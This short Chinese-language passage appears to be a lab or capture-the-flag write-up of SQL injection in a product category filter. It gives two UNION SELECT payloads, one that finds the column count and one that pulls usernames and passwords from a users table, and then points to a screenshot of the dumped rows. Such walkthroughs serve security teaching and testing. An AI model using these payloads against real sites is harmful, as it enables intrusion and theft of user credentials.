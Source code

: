 确定产品分类处存在sql注入

pyload:

```javascript
'union+select+null,null--+
```

确定数据表有两列



payload:

```javascript
'union+select+username,password+from+users--+
```

返回users表内容：

![](images/31EB011A8BA9448F8259A6D94F54A07Dclipboard.png)

